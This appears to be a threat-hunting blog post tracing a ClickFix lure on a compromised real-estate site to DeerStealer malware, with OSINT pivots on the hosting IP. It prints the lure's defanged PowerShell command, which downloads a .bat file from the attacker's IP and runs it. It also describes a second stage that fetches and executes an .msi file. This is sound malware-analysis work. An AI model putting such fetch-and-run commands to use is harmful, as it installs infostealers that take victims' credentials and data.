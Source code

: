 ```yaml
---
layout: post
title:  "Comp'd Domain - DeerStealer"
date:   2025-09-09 21:00:00 +1000
categories: hunting
---
```


<style>
  body { font-size: 16px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

## Overview

Grabbed a Clickfix IOC from Validin, following the breadcrumbs to see if I can attribute it to an adversary/malware strain.

Going to through out all IOCs and stuff because why not.

### Website serving Clickfix

"quirkyrealty[.]com"

Resolves to an Indian IP. Hosted by 'Web Werks India Pvt. Ltd. was an Indian data center and cloud solutions provider'
![alt text](/images/india_resolved.PNG)

Google dork see what we can get. Looks like a legit business? Well a not very legit one. 
![alt text](/images/quirky_google.PNG)

Booting up my VM to hit the website to see how this is being served.

![alt text](/images/landing_page.PNG)

Alright few points here from the screenshot above.
- No redirects/iframes/weird JS
- Malicious JavaScript exists within the first HTTP request to the domain
- Payload command written in cleartext (whoop whoop)
- Can see a juicy IP and the file 'ct.bat' that is downloaded from there.

![alt text](/images/malicious_js.PNG)

Here is the malicious .JS that copies the command to the user's clipboard
- Uses document.execCommand

Website is likely full comp'd or not legit in the first place.

Here is the full command from the ``command`` variable in the .JS

``const command = `powershell -c "Invoke-WebRequest -Uri 'hXXp://80[.]253[.]249[.]186:5504/ct.bat' -OutFile \"%temp%\ct.bat\" -UseBasicParsing; Start-Process \"%temp%\ct.bat\""`;``

### .Bat? 

``const command = `powershell -c "Invoke-WebRequest -Uri 'hXXp://80[.]253[.]249[.]186:5504/ct.bat' -OutFile \"%temp%\ct.bat\" -UseBasicParsing; Start-Process \"%temp%\ct.bat\""`;``

This is our payload command. Lets remove 'Start-Process', the const declaration and run it in my VM to save the file in temp.

``Invoke-WebRequest -Uri "hXXp://80[.]253[.]249[.]186:5504/ct.bat" -OutFile "C:\Users\ronald\Desktop\NewClicky\safe-file.txt"``

Alright well this is depressing. The file doesn't live on the web server anymore.

![alt text](/images/file_down.PNG)

But if we whack the IP into VT and check communicating files we may be able to see a communicating file that is active.

![alt text](/images/vt_file_comm.PNG)

Now let's have a go at pulling this from the same port. As 'hj.bat' was seen today (22nd Sept)

![alt text](/images/HJ.PNG)

Success! Wooo hooo. Alright let's break this down.

1. Launches powershell, then cmd
2. Sets variables for stage 2 download. (File, IP and Target Directory)
3. Attempts to use curl to download the .msi file
4. If it fails uses inbuilt powershell command WebClient to download
5. Runs the .msi file

### .Msi?

So let's pull it down. Using curl. As thats what the script does. Except we don't want to run it, clearly.

![alt text](/images/pull_second.PNG)

Easy peasy. Let's open this up, safely, of course. 

![alt text](/images/file_size.PNG)

Got a hash. 4.1mbs of size. See what VT says.

![alt text](/images/vt_result_deer.PNG)
![alt text](/images/yara_deer.PNG)

YARA rules are hitting for Deer Stealer. Never heard of that before.

Looks like it's MaaS again. Malware developed and maintained by the user @LuciferXfiles. 

Looks to behave like every other Infostealer. Jump in snatch and grab, exfil data, setup a C2.

Lets try and pick this apart.

### DeerStealer



### IP? What are you...

We can see that 'ct.bat' is being served from the IP 80[.]253[.]249[.]186 at port 5504. 

Quick DNSLytics lookup.
![alt text](/images/clickfix_payload_ip.PNG)

What services are running on the IP?

![alt text](/images/shodan_result.PNG)

Fair few... that RCE CVE is juicy...

Anyhow, interesting that we can't see port 5504 here. Because that is the port that historically served 'ct.bat'

Hunt.io states it was last seen on the 9th of September. So I am one day late to the party. 

![alt text](/images/hunt.io_result.PNG)

Without any HTTP response body we can't do much else. Historical data is dry for this port on Censys, Validin and huntio.

For pivoting I'll look into RDP (3389)

A popular pivot from here is the SSL cert SHA_256 hash. Usually you would have to run an OpenSSL command to calculate this. But Validin has already calculated it for us.

![alt text](/images/validin_sha_256.PNG)

Now when we search this hash we have another IP.

![alt text](/images/validin_sha_result.PNG)

Snazzy. This gives us very high confidence they're related as they use the same RDP SSL cert!

Alright, when I whack this IP into VT I get some cool results.

![alt text](/images/VT_result.PNG)
